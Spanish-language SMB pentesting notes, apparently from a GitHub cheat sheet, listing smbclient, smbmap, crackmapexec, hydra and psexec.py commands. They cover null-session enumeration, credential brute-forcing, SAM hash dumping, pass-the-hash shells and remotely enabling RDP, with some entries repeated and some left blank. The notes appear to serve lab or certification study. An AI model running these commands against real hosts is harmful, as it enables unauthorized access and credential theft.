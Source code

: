 # SMB ❮❯

❯ **smbclient -L ❮IP❯** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ **smbclient -L ❮IP❯ -N** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ **smbmap -H ❮IP❯** Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ **smbclient -L //❮IP❯/❮Dir❯ -N** Nos conectaremos a una carpeta con el uso de un null sesion (sin credencial alguna)
	❯ **dir** Mirar el contenido del directorio
	❯ **put ❮File❯** Para subir un archivo al dir SMB 
	❯ **get ❮File❯** Para descargar un archivo

❯ **crackmapexec smb ❮IP❯** Para listar recursos compartidos de Windows
❯ **crackmapexec smb ❮IP❯ --shares** Para listar los recursos de otra manera, pero aveces no funciona
❯ **crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯** Para el servicio **445/tcp smb** abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un **(****+****)** quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ **crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯**
Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo **Remote management users**, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.








- Comando -> **nmap --scripts “vuln and safe” -p< PORT> < TARGET IP> -oN < FILENAME>** Lanzara vulnerabilidades que no sean muy intrusivas de tipo seguro, va a mandar scripts al puerto 445 para saber si tiene alguna vulnerabilidad que podamos explotar.

- Comando -> **hydra -L user.list -P password.list smb://< IP>** Para ver si esos usuarios y passwd son validos

 **sudo apt-get -y install crackmapexec** Para instalar crackmapexec. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.

- Comando -> **crackmapexec < proto> < target-IP> -u < user or userlist> -p < password or passwordlist>**
- Comando -> 
- Comando -> 
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’}** Para el servicio **445/tcp smb** abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un **(****+****)** quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -p <‘PASSWORD’> --sam** Podremos listar el hash del usuario administrador y del resto que existan en el sistema, con los que podemos llegar a aplicar pass de hash  
- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’>** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’> -M rdp -o action=enable** Podemos habilitar el RDP puerto 3389 

- Comando -> **smbclient -U user \\\\\\\\10.129.42.197\\\\SHARENAME** Nos permite ver el contenido de shares, uploads, download files si el privilegio nos lo permite
- Comando -> 
- Comando -> **smbmap -H** **{ip_targeted}** Herramienta elternativa para ver si nos reporta algo mas
- Comando -> **smbmap -H** **{ip_targeted} -u 'null'** Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)


- Comando -> **crackmapexec winrm {ip_targeted} -u {‘user’} -p {‘password’}**
Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo **Remote management users**, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

  

